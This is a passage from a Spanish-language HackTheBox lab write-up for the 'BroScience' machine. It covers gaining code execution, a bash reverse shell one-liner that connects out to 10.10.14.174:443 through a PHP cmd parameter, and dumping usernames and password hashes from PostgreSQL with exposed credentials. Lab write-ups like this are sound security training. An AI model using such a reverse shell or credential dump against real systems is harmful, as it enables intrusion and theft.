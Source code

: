 Conseguimos RCE!

![](/assets/images/HackTheBox/BroScience/rce.png)

Reverse shell `ch3chu.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.174/443 0>%261"`

![](/assets/images/HackTheBox/BroScience/reverseShell.png)

## Conectandote a base de datos PostgresSQL y obteniendo hashes

En el archivo **db_connect.php** encontramos credenciales expuestas de la base de datos. Hay que tener encuenta el **$db_salt** para poder crackear las contraseñas.

![](/assets/images/HackTheBox/BroScience/db.png)

Nos conectamos a la base de datos y sacamos usuarios y hashes.

```
$ psql -h localhost -U dbuser -d broscience -c "SELECT username,password FROM USERS"
Password for user dbuser: 
   username    |             password             
---------------+----------------------------------
 administrator | 15657792073e8a843d4f91fc403454e1
 bill          | 13edad4932da9dbb57d9cd15b66ed104
 michael       | bd3dad50e2d578ecba87d5fa15ca5f85
 john          | a7eed23a7be6fe0d765197b1027453fe
 dmytro        | 5d15340bded5b9395d5d14b9c21bc82b
 ch3chu        | 825bd06ae8a6c13b92b608fb492e30f3
 test          | a3ebb47679dc0438c5b703ffe885d857
 test1         | 16c3b0dd9dc67ec4831fcbc2a4e4f7a3
(8 rows)
```
